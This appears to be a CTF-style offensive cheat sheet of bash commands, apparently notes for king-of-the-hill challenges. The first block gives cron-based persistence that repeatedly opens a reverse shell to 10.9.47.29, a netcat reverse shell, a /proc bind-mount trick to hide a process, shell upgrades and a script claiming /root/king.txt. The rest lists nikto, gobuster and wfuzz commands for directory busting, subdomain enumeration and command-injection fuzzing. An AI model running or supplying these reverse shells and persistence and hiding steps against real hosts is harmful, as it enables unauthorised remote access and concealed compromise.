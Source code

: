 ```bash

crontab -e
* * * * * bash /dev/shm/.bak.sh
* * * * * root /bin/bash -c '/bin/sh -i >& /dev/tcp/10.9.47.29/9999 0>&1'

#!/bin/bash
echo CyberxploitHausa > /root/king.txt
sh -i >& /dev/tcp/10.9.47.29/9999 0>&1
* * * * * root /bin/bash -c '/bin/sh -i >& /dev/tcp/10.9.47.29/9999 0>&1'

# Hiding a process ID 
mount --bind /tmp /proc/221214
cd /proc; for pid in {1200..4000}; do echo -n $pid;cat /proc/$pid/cmdline; 2>/dev/null;done
cat /tmp/f | sh -i 2>&1 | nc 10.9.47.29 1337
python3 -c "import pty;pty.spawn('/bin/bash')"

find / -type f -exec -EH '^[0-9a-f]{32}$' {} \; 2>/dev/null
find / -type f -exec -EH '^[0-9a-f]{32}[0-9a-f]?' {} \; 2>/dev/null

```
#################################################################
# Web Fuzzing, Content Discovery, Directory busting
## GOBUSTER
```bash
# Nikto
nikto --host $URL -C all
# Gobuster Dir
gobuster dir -u $URL -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt -k -t 30
# Gobuster Files
gobuster dir -u $URL -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-files.txt -k -t 30
# Gobuster dns [subdomain]
gobuster dns -d someDomain.com -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 30

```
#################################################################
## WFUZZ
```bash
# Wfuzz files
export URL="https://example.com/FUZZ"
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 404 "$URL"
# Wfuzz Directories
export URL="https://example.com/FUZZ/"
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 404 "$URL" 

# AUTHENTICATED FUZZING:
export URL="https://example.com/FUZZ"
wfuzz -c -b "<SESSIONVARIABLE>=<SESSIONVALUE>" -z ffile,/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 404 "$URL"

# FUZZ DATA AND CHECK FOR PARAMETERS:
export URL="https://example.com/?parameter=FUZZ"
export URL="https://example.com/?FUZZ=data"
wfuzz -c -z file,/usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt "$URL"

# FUZZ Post Data
wfuzz -c -z file,/usr/share/wordlists/Fuzzing/command-injection.txt -d "postParameter=FUZZ" "$URL"
```